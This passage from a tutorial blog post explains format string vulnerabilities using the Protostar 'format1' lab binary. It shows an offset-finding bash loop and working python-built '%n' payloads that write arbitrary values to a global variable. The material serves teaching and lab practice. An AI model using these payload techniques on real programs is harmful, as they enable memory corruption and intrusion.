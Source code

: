 The address is **0x08049638**.

We'll calculate the offset the same way we've done before; using a small bash
script:

```sh
user@protostar:/opt/protostar/bin$ for i in {1..200}; do ./format1 "AAAAAAAA.%$i\$x" | grep "41414141"; if (( $? == 0 )); then echo "Offset: $i"; fi done
AAAAAAAA.41414141
Offset: 130
```

> Note: we used eight 'A's due to potential padding issues. We may have to account
> for padding in the exploit too.

And now our exploit:

```sh
user@protostar:/opt/protostar/bin$ ./format1 $(python -c 'print "\x38\x96\x04\x08" + "PPPP" + "%130$n"')
8�PPPPyou have modified the target :)
```

> Note: the 'P's are for padding.

As we can see, we have successfully modified the global variables address
proving successful arbitrary writes.

Now, ```%n``` writes the total number of characters written so far to the
pointer. We can increase the number written by using length specifiers. For
example, if we wanted to write the value 32 to ```target``` in format1:

```sh
user@protostar:/opt/protostar/bin$ ./format1 $(python -c 'print "\x38\x96\x04\x08" + "" + "%28x" + "%130$n"')
8�                     804960cyou have modified the target :)
```

Now let's break down what's happening here by listing what's written:
  - address: 4 bytes
  - padding: 0 bytes. No longer used due to the length specifier bellow.
  - length specifier: 28 bytes. We don't really care about it's value, just that
  it takes up 28 bytes.
  - the conversion specifier telling us to write at the 130th parameter.

If we add everything up, we'll notice it adds up to 32! The value the conversion
specifier will then write to our address.

Now, why is the padding no longer needed? Well simply, this moved the stack in
such a way that we no longer needed it. Padding can be a pain when exploiting
format strings.

## Conclusion

Format Strings are used by the printf family of functions to indicate what data
the function should expect, and how to format it. It is considered a major
vulnerability if the user can control this string.

In this post we presented basic examples of how format string vulnerabilities
can be leveraged to achieve arbitrary reads and writes to memory. For more
examples, my next post will be a write-up of the Protostar format string
challenges.
